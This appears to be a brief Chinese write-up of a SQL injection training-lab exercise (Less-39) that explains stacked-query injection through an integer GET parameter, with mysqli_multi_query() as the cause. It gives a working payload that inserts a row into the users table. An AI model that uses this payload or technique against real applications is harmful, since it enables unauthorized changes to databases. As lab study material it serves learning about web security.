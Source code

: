 # GET-Stacked Query Injection-Intiger based  
TAG：堆叠注入、GET型注入
## 漏洞利用  
![less39_1](images\less39_1.png) 
  
输入一个单引号获取报错信息，可知参数为整形  
![less39_2](images\less39_2.png) 
  
此less与less38原理相似，都使用了```mysqli_multi_query()```函数，可以使用堆叠注入  
  
Payload:```?id=1;insert into users(id,username,password) values ('18','less39','hello')--+```  
![less39_3](images\less39_3.png) 
